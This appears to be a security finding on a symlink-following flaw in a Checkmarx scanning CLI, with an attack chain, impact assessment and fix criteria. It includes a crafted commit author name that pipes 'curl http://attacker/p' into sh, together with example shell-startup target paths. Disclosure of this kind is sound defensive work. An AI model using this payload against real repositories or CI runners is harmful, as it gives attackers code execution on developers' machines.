

# Metadata files written through repository-controlled symlinks under .checkmarx, overwriting arbitrary files

| Field | Value |
|---|---|
| ID | `find_01M4SBWU5xi1gDwmqtA3cfXz` |
| Severity | **High** |
| Status | open |
| CWE | CWE-59 — Link following |
| Created | 2026-10-22T14:02:12.968621Z |
| Claude Security | https://claude.ai/security/findings/find_01M4SBWU5xi1gDwmqtA3cfXz |

## Description

A repository author can make the CLI overwrite or create files on the machine of anyone who scans their repository. Any file the scanning user can write is affected, such as a shell startup file. It needs a Linux or macOS checkout that keeps symlinks. The cause is `writeGeneratedFilesConditional`, which writes `.checkmarx/metadata.json` and `.checkmarx/contributors.csv` into the checkout without checking for symlinks.

1. **repository author** commits `.checkmarx/contributors.csv` or `.checkmarx/metadata.json` as a symlink and adds a recent commit with a crafted author name. The link points to an absolute path such as `/home/runner/.bashrc`, or to a `../../../../../../../../root/.bashrc` style path that collapses at `/`, and the author name is `x; curl http://attacker/p | sh`.
2. **victim developer or CI job** clones the repository and scans it with `cx scan create -s .` or from the VS Code extension. On Linux and macOS git checks out the committed symlinks as real symlinks, because `core.symlinks` defaults to true there. ([`packages/core/src/cx/cx.ts:143-167`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/packages/core/src/cx/cx.ts#L143-L167))
3. **scan code in `scan.go`** runs the metadata generation on the `-s` directory before zipping. This runs by default for every directory source that is a git working tree, with no flag to turn it off, and an error is only logged in verbose mode. ([`internal/commands/scan.go:2350-2367`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/scan.go#L2350-L2367))
4. **`isPrivateByURL`** classifies the repository as private, which selects the `contributors.csv` branch. Any host other than GitHub, GitLab, Bitbucket or Azure counts as private, and so does any probe failure, so the author chooses this branch by where the repository is hosted. ([`internal/commands/gitmetadata.go:388-407`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/gitmetadata.go#L388-L407))
5. **`writeGeneratedFilesConditional`** creates `.checkmarx` and writes both files with `os.MkdirAll` and `os.WriteFile`. `os.WriteFile` follows symlinks, including dangling ones, and no `Lstat`, `O_NOFOLLOW` or containment check runs first, so the target of the link is truncated or created. ([`internal/commands/gitmetadata.go:339-358`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/gitmetadata.go#L339-L358))
6. **`buildContributorsCSV`** writes commit author fields into the redirected target. `encoding/csv` leaves a name unquoted unless it holds a comma, a quote or CR/LF, or starts with a space, so the payload line lands verbatim. ([`internal/commands/gitmetadata.go:150-171`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/gitmetadata.go#L150-L171))
7. **`cleanGeneratedContributorsFiles`** unlinks the symlink inside the repository. Only the link is removed, so the overwritten target stays and the evidence in the tree is gone. ([`internal/commands/scan.go:4672-4700`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/scan.go#L4672-L4700))
8. **victim's shell** runs the payload when the overwritten file is a shell startup file. The shell executes the line after the first word of it fails.

## Assessment

The attacker writes a repository that the victim then scans, either a cloned project or a pull request scanned in CI. The repository must be hosted somewhere not classed as public for the CSV branch, and the attacker needs a guessable writable target path. The victim must check out symlinks, which is the default on Linux and macOS. The victim then runs `cx scan create -s .`, or scans the workspace folder from the VS Code extension. For a public github.com remote only `metadata.json` is written, so the attacker is limited to a fixed JSON overwrite. A private GitHub repository also takes the CSV branch.

Impact: The attacker can truncate and rewrite, or create, any file the scanning user can write. With `metadata.json` the content is fixed JSON, which destroys targets such as `~/.ssh/authorized_keys`, `~/.gitconfig` or `~/.checkmarx/checkmarxcli.yaml`. With `contributors.csv` the attacker controls the author name and email fields, which is enough to run a shell command as the developer or CI user when the target is a shell startup file. That exposes Checkmarx credentials and source code and lets the attacker alter the host.

## Recommendation

The CLI writes `metadata.json` and `contributors.csv` to fixed paths inside the untrusted source tree, using `os.MkdirAll` and `os.WriteFile`, which follow symlinks. Repository content can therefore redirect the write to any file the scanning user can write.

Fix criteria: No write of `metadata.json` or `contributors.csv` resolves outside the source root or through a repository-controlled link. Either the files are generated in a CLI-owned temporary directory and added to the zip from there, or any symlinked `.checkmarx` component is refused or replaced and the files are opened without following links (no-follow, exclusive create). Test with a cloned repository where `.checkmarx/contributors.csv` links to `/tmp/target` and `.checkmarx/metadata.json` links to `/tmp/target2`. After `cx scan create -s .`, both targets must be untouched or absent.

## Evidence

**https://github.com/cx-benchmark/ast-cli**

- [`internal/commands/gitmetadata.go:339-358`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/gitmetadata.go#L339-L358)
- [`internal/commands/gitmetadata.go:150-171`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/gitmetadata.go#L150-L171)
- [`internal/commands/scan.go:2350-2367`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/scan.go#L2350-L2367)
- [`internal/commands/scan.go:4672-4700`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/scan.go#L4672-L4700)
- [`internal/commands/gitmetadata.go:388-407`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/gitmetadata.go#L388-L407)

**https://github.com/cx-benchmark/ast-vscode-extension**

- [`packages/core/src/cx/cx.ts:143-167`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/packages/core/src/cx/cx.ts#L143-L167)

